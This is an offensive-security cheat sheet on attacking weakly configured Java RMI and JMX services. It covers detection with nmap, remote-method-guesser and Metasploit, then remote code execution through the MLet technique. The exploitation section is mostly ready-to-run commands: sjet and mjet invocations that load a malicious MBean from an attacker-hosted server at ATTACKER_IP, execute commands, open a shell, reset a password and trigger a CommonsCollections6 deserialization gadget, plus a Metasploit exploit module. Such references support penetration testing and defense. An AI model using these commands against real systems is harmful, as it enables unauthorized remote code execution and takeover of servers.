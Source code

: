 # Java RMI

> Exposing a weak configured Java Remote Method Invocation (RMI) service can lead to several ways to achieve RCE.
> One such attack is to host an MLet file and instruct the JMX service to load MBeans from the remote host which can be carried out
> using the tools mjet or sjet. remote-method-guesser is a more recent tool which bundles enumeration of RMI services together
> with a summary of currently known attack techniques.

## Summary

* [Tools](#tools)
* [Detection](#detection)
* [Exploitation](#exploitation)
  * [RCE using sjet/mjet](#rce-using-sjet-or-mjet)
* [References](#references)

## Tools

- [sjet](https://github.com/siberas/sjet)
- [mjet](https://github.com/mogwailabs/mjet)
- [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser)

## Detection

Using [nmap](https://nmap.org/):
```powershell
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

Using [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser):
```bash
$ rmg scan 172.17.0.2 --ports 0-65535
[+] Scanning 6225 Ports on 172.17.0.2 for RMI services.
[+]
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:40393 (DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:1090  (Registry, DGC)
[+] 	[HIT] Found RMI service(s) on 172.17.0.2:9010  (Registry, Activator, DGC)
[+] 	[6234 / 6234] [#############################] 100%
[+]
[+] Portscan finished.
```

```bash
$ rmg enum 172.17.0.2 9010
[+] RMI registry bound names:
[+]
[+] 	- plain-server2
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff7, 9040809218460289711]
[+] 	- legacy-service
[+] 		--> de.qtc.rmg.server.legacy.LegacyServiceImpl_Stub (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ffc, 4854919471498518309]
[+] 	- plain-server
[+] 		--> de.qtc.rmg.server.interfaces.IPlainServer (unknown class)
[+] 		    Endpoint: iinsecure.dev:39153 ObjID: [-af587e6:17d6f7bb318:-7ff8, 6721714394791464813]
[...]
```

Using Metasploit
```bash
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
run
```

## Exploitation

### RCE using sjet or mjet

#### Requirements
- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled

#### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
* Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

### RCE using Metasploit
```bash
use exploit/multi/misc/java_rmi_server
set RHOSTS <IPs>
set RPORT <PORT>
# configure also the payload if needed
run
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH, 28 April 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security, 26 March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)
* [remote-method-guesser - BHUSA 2021 Arsenal - Tobias Neitzel, 15 August 2021](https://www.slideshare.net/TobiasNeitzel/remotemethodguesser-bhusa2021-arsenal)
